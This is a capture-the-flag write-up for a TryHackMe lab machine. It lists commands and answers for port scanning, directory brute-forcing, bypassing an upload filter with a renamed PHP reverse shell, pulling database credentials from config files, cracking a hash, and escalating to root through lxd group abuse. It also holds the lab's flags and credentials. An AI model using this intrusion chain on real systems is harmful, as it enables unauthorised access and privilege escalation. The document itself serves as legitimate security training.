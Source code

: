 ```yaml
---
description: Web
---
```


# The Trial Before Christmas

## Video

## Resources

## Challenges

### Scan the machine. What ports are open?

```text
nmap -sC -sV -T5 -p1-65535 10.10.243.219
```

![](../.gitbook/assets/image%20%28370%29.png)

{% hint style="success" %}
80, 65000
{% endhint %}

### What's the title of the hidden website? It's worthwhile looking recursively at all websites on the box for this step.

```text
gobuster dir -u http://10.10.243.219 -w /usr/share/dirb/wordlists/common.txt
```

![](../.gitbook/assets/image%20%28374%29.png)

```text
gobuster dir -u http://10.10.243.219:65000 -w /usr/share/dirb/wordlists/common.txt -x php -t 50
```

![](../.gitbook/assets/image%20%28364%29.png)

![](../.gitbook/assets/image%20%28359%29.png)

{% hint style="success" %}
Light Cycle
{% endhint %}

### What is the name of the hidden php page?

```text
gobuster dir -u http://10.10.243.219:65000 -w /usr/share/dirb/wordlists/common.txt -x php -t 50
```

![](../.gitbook/assets/image%20%28360%29.png)

{% hint style="success" %}
uploads.php
{% endhint %}

### What is the name of the hidden directory where file uploads are saved?

{% hint style="success" %}
grid
{% endhint %}

### Bypass the filters. Upload and execute a reverse shell. 

```text
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

mv php-reverse-shell.php image.jpeg.php
```

![](../.gitbook/assets/image%20%28368%29.png)

![](../.gitbook/assets/image%20%28371%29.png)

![](../.gitbook/assets/image%20%28369%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

### What is the value of the web.txt flag?



![](../.gitbook/assets/image%20%28367%29.png)

{% hint style="success" %}
THM{ENTER\_THE\_GRID}
{% endhint %}

### Upgrade and stabilize your shell.

```text
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
stty raw -echo; fg
```

{% hint style="success" %}
No answer needed
{% endhint %}

### Review the configuration files for the webserver to find some useful loot in the form of credentials. What credentials do you find? **username:password**

```text
cd /var/www/
cd TheGrid
cd includes
cat dbauth.php
```

![](../.gitbook/assets/image%20%28365%29.png)

{% hint style="success" %}
tron:IFightForTheUsers
{% endhint %}

### Access the database and discover the encrypted credentials. What is the name of the database you find these in?

```text
mysql -u tron -p
IFightForTheUsers
show databases;
use tron;

```

![](../.gitbook/assets/image%20%28366%29.png)

{% hint style="success" %}
tron
{% endhint %}

### Crack the password. What is it?

{% embed url="https://hashes.com/en/tools/hash\_identifier" %}

![](../.gitbook/assets/image%20%28372%29.png)

{% hint style="success" %}
@computer@
{% endhint %}

### Use su to login to the newly discovered user by exploiting password reuse.

![](../.gitbook/assets/image%20%28375%29.png)

{% hint style="success" %}
No naswer needed
{% endhint %}

### What is the value of the user.txt flag?

{% hint style="success" %}
THM{IDENTITY\_DISC\_RECOGNISED}
{% endhint %}

### Check the user's groups. Which group can be leveraged to escalate privileges?

```text
id
group
```

![](../.gitbook/assets/image%20%28363%29.png)

{% hint style="success" %}
lxd
{% endhint %}

### Abuse this group to escalate privileges to root.

```text
lxc image list
lxc init Alpine strongbad -c security.privileged=true
lxc config device add strongbad trogdor disk source=/ path=/mnt/root recursive=true
lxc start strongbad
lxc exec strongbad /bin/sh

```

![](../.gitbook/assets/image%20%28361%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

### What is the value of the root.txt flag?

{% hint style="success" %}
THM{FLYNN\_LIVES}
{% endhint %}

